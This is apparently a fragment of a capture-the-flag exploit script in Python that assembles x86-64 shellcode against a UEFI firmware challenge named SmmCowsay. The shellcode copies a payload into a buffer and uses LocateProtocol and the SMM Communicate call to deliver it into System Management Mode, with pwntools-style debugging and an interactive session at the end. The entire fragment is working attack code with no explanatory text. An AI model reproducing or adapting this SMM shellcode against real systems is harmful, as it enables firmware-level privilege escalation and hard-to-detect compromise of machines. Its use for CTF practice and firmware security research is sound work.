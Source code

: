 ```python
    asm(f"""
    // copy data to allocated_buf
    mov rdi, {allocated_buf};
    lea rsi, [rip + temp_buf];
    mov rcx, {len(payload) + 0x18};
    cld; // clear flags
    rep movsb; // mov $rcx bytes from $rsi to $rdi
 
    ret; // don't forget to return to Binexec.efi
 
temp_buf:
    .octa {gEfiSmmCowsayCommunicationGuid};
    .quad {len(payload)};
""")
    + payload
)

lianpwn.lg("breakpoint", longjump_gadget)
lianpwn.debugB()

execute_shellcode(
    asm(
        f"""
    // LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, mSmmCommunication)
    lea rcx, [rip + guid_buf];
    xor rdx, rdx;
    lea r8, [rip + temp_buf];
    mov rax, {LocateProtocol_addr};
    call rax;
 
    // mSmmCommunication->Communicate(this, Buffer, NULL);
    mov rcx, [rip + temp_buf];
    mov rdx, {allocated_buf};
    xor r8, r8;
    mov rax, [rip + temp_buf];
    mov rax, [rax];
    call rax;
 
    ret;
 
guid_buf:
    .octa {gEfiSmmCommunicationProtocolGuid};
 
temp_buf:
"""
    ),
    cowsay=True,
)

ia()
```
